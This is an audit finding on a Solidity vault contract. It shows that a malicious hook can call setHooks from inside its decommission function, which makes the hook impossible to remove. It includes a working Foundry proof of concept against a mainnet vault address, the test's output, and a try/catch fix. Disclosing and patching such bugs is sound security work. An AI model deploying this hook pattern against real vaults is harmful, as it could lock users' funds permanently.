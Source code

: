 # Malicious hook can avoid decomissioining by calling vault function with `nonReentrant` modifier.

## Bug Description

Here's malicious hook which is impossible to decommission.
```
contract MaliciousHook is Hook {
    function decommission() override external {
        vault.setHooks(address(this));
    }
}
```

As `AeraVault::setHooks()` has reentrancy protection, `hooks.decommission()` will revert.

```
    function setHooks(address newHooks)
        external
        override
        nonReentrant
        onlyOwner
        whenNotFinalized
        reserveFees
    {
        // Requirements: validate hooks address.
        _checkHooksAddress(newHooks);

        // Effects: decommission old hooks contract.
        if (address(hooks) != address(0)) {
            hooks.decommission();
        }

        // Effects: set new hooks address.
        hooks = IHooks(newHooks);

        // Log new hooks address.
        emit SetHooks(newHooks);
    }
```

## Impact
Unable to get rid of malicious hook after once being installed.

Fund might be locked permenantly because of malicious hook.

## Recommendation
`setHook` should force to decomission by wrapping with try-catch block.

```
    function setHooks(address newHooks)
        external
        override
        nonReentrant
        onlyOwner
        whenNotFinalized
        reserveFees
    {
        // Requirements: validate hooks address.
        _checkHooksAddress(newHooks);

        // Effects: decommission old hooks contract.
        if (address(hooks) != address(0)) {
-            hooks.decommission();
+            try { hooks.decommission(); } catch { } 
        }

        // Effects: set new hooks address.
        hooks = IHooks(newHooks);

        // Log new hooks address.
        emit SetHooks(newHooks);
    }
```

## Proof of Concept
```
// SPDX-License-Identifier: UNLICENSED
// !! THIS FILE WAS AUTOGENERATED BY abi-to-sol v0.5.3. SEE SOURCE BELOW. !!
pragma solidity 0.8.20;

import "forge-std/Test.sol";

IVault constant vault = IVault(0x9Ecf0d8Dcc0076DD153749BECe0762aCaE1C9049);
interface IVault {
    function setHooks(address newHooks) external;
    function owner() external view returns (address);
}

struct AssetValue {
    address asset;
    uint256 value;
}

contract Hook {
    function vault() external view returns (address) { return address(vault); }
    function beforeDeposit(AssetValue[] calldata amounts) external {}
    function beforeWithdraw(AssetValue[] calldata amounts) external {}
    function decommission() virtual external {}

    function supportsInterface(bytes4 interfaceId) public view returns (bool)
    { return interfaceId == 0x01ffc9a7 || interfaceId == 0x755e7563; }
}

contract MaliciousHook is Hook {
    function decommission() override external {
        vault.setHooks(address(this));
    }
}

contract AeraTest is Test {
    function setUp() public {
        vm.createSelectFork("mainnet");
    }

    function testAera() public {

        address maliciousHook = address(new MaliciousHook());
        address normalHook = address(new Hook());

        vm.startPrank(vault.owner());
        
        console.log("Installing malicious hook...");
        vault.setHooks(maliciousHook);

        console.log("Unable to get rid of malicious hook...");
        vm.expectRevert();
        vault.setHooks(normalHook);
        
        vm.stopPrank();
    }
}

```

### Output
```
Running 1 test for test/Aera_test.sol:AeraTest
[PASS] testAera() (gas: 307492)
Logs:
  Installing malicious hook...
  Unable to get rid of malicious hook...

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 15.86s
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
